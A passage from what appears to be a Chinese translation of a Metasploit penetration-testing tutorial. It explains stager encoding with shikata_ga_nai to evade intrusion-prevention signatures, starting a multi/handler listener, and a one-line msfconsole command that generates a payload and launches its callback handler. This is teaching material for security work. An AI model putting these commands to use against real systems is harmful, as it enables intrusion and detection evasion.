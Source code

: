 
首先，我们在选择编码器之前设置了`LHOST`和`LPORT`，这将使用`shikata_ga_nai`编码器对 stager 进行编码。我们使用 stager 编码机制的原因是通过编码 stager 绕过 IPSes/DPSes，从而动态更改签名。

我们还需要通过将其值设置为`true`**来启用阶段编码。**此选项将使用我们选择的编码器启用第二阶段编码过程。一旦设置了`stageencoding`选项，就会执行`run -j`命令在后台启动处理程序。

运行处理程序的另一种方法是使用控制台中可用的`handler`命令，并向其传递参数：

![](img/a7abc47f-b039-407f-990c-42c7447797d0.png)

因此，用于使用前面讨论的所有设置执行处理程序的一行命令将是`handler -H <IP> -P <Port> -e <encoder> -p <payload>`，如以下屏幕截图所示：

![](img/013a1e1b-b7f0-4384-8019-ed26a55fe118.png)

接下来，我们将研究 MSF 有效载荷的生成。

# MSF 有效载荷生成

有效负载生成是 Metasploit 框架中最有用的功能之一。从简单的外壳代码生成到完全武器化的 EXE/DLL 文件，Metasploit 可以在一行命令中生成。有效载荷可以通过两种方式生成。

# 使用 msfconsole（一个班轮）生成 MSF 有效负载

通过使用 MSF 控制台并执行有效负载生成命令，您可以生成任何 MSF 支持的有效负载。使用此技术的一个优点是，您不必单独启动负载处理程序。这可以使用单行命令完成。要生成有效负载并启动处理程序，请执行以下代码：

```
'msfconsole -qx "use <MSF supported payload>; set lhost<IP>; set lport <Port>; generate -f<Output File Format> -o<payload filename>; use exploit/multi/handler; set payload<MSF supported payload>; set lhost <IP>; set lport <Port>; run -j"'
```
